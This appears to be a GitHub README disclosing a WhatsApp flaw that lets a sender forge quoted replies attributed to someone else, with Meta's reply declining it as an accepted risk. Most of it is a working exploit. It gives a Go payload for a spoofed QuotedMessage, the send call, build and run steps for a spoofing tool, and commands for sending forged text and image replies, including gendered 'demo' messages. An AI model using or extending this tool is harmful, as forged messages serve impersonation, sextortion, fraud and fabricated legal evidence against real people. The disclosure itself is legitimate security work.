 # Whatsapp Spoofing impersonate of reply message

All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## Impact

Malicious individuals can use this to create issues such as:

- Arguments between couples
- Sextortion scams
- Frauds against financial institutions
- In Brazil, someone could take a cellphone to a notary office to register a "Notarial Act" to create a record that could be used in legal proceedings, claiming that the original message was deleted but keeping the evidence of the "QuotedMessage."
- Creating embarrassing situations involving public figures (famous actors, politicians, etc.)

## What Meta/Facebook sad about this

Hi Gustavo,

Thanks for your report. This issue has been reported to us before, and we consider it to be an accepted risk. When someone replies to a message, the WhatsApp client copies the text available within the app and creates a graphical representation that helps people follow the conversation, the owner of this quoted message is always the person replying to the original message. WhatsApp uses end to end encryption and doesn’t store messages on its servers, therefore we don’t have a single source of truth for these messages. People always have the option of blocking a sender who tries to spoof messages and they can report problematic content to us. Although we appreciate the report, such issues do not qualify under our bug bounty program.

Thanks,

Teo

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## POC

[Watch the video](https://youtu.be/_WL6hpAvNh8)

[![Watch the video](https://img.youtube.com/vi/_WL6hpAvNh8/hqdefault.jpg)](https://youtu.be/_WL6hpAvNh8)

![poc_whatsapp_spoofing-impersonate-of-reply-message.png](files/poc_whatsapp_spoofing-impersonate-of-reply-message.png)

## Exploit

#### Clone the repository.

```bash
git clone https://github.com/Elonmusic23/spoofing.git
```

### Install dependencies.

```bash
cd whats-spoofing
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```

